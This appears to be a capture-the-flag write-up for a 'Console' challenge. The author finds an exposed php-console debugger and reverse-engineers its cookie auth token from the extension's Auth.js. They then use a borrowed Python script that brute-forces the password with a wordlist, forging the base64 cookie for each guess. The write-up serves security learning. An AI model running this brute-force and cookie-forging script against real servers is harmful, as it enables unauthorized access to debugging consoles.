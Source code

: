 # Console

So when we launch the challenge and go on the webpage we are greeted with a php info page with something that stands out:

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1).png" alt=""><figcaption></figcaption></figure>

after looking up what was php-console we can see this repository:

{% embed url="https://github.com/barbushin/php-console" %}

So from what i see i need to launch the tool in a chromium browser and it's not in the extension store so i clone the repo of the extension, go in the extension manager and load the unpacked extension and select the php console extension folder, update and we'll be good:

<figure><img src="../../../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (25) (1).png" alt=""><figcaption><p>Now we can use it </p></figcaption></figure>

So let's go back on our phpinfo page and refresh it, the extension should prompt us for some sort of password:

<figure><img src="../../../../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

I enter test as... a test and nothing seems to change and then i decide to go and see the cookies of our page and see a php-console cookie that was not here before:

<figure><img src="../../../../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

So i go and decode the base64 cookie to reveal the interesting content:

<figure><img src="../../../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

So i mess around for some time trying to see how the token is crafted then i try and re input a random password (helloworld) and see that the cookie changes slightly:

<figure><img src="../../../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

publicKey stayes the same but token changes and if a reinput the same password, the token is always the same so the token must be crafted using the password and god knows what other parameters

If we go in the github of the tool and look at the Auth.js file we find exactly what we want:

```javascript
function DomainAuth(domain, publicKey, passwordHash) {

	this.domain = domain;
	this.publicKey = publicKey;
	this.hash = passwordHash;

	this.getAuthToken = function() {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey).toString();
		}
	};

	this.getSignature = function(string) {
		if(this.hash && this.publicKey) {
			return window['CryptoJS']['SHA256'](this.hash + this.publicKey + string).toString();
		}
	};

	this.getClientAuth = function() {
		var token = this.getAuthToken();
		if(token && this.publicKey) {
			return {
				'publicKey': this.publicKey,
				'token': token
			}
		}
	};
}
```

`this.getAuthToken` generates an authentication token by hashing the concatenation of `this.hash` and `this.publicKey` using the **SHA256** algorithm provided by `CryptoJS`

I am very bad with scripts for the moment so i went and got a script from a writeup:

```python
from pwn import *
import requests
import json

url = 'http://83.136.253.73:49889'
wordlist = open('/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt', 'r')
salt = 'NeverChangeIt:)'  # Salt used in hashing
public_key = '370244b500c702b16dddb1678c882d2b7aa0b3bcdf94fb6bb9e792460c5d460b'  # Grab from response header

for count, password in enumerate(wordlist):
    password = password.strip()
    if password:
        # sha256 the password and salt
        hashed_password = sha256sumhex((password + salt).encode())
        # sha256 the hashed password and the public key
        token = sha256sumhex((hashed_password + public_key).encode())

        # Build up a cookie
        php_console_server = 'php-console-server=5;'
        php_console_client = '{"php-console-client":5,"auth":{"publicKey":"' + public_key + '","token":"' + token + '"}}'
        headers = {'Cookie': php_console_server + 'php-console-client=' + b64e(php_console_client.encode())}

        # Send the request and grab PHP console header response
        response = requests.get(url, headers=headers)
        php_console_response = json.loads(response.headers['PHP-Console'])

        # Success?
        if php_console_response['auth']['isSuccess'] != False:
            print("Success! Correct password was: " + password)
            wordlist.close()
            quit()

print("Failed to find correct password :(")
wordlist.close()
```

and after getting the password and inputting it in the php console we were able to get the flag in the header of the app:

<figure><img src="../../../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

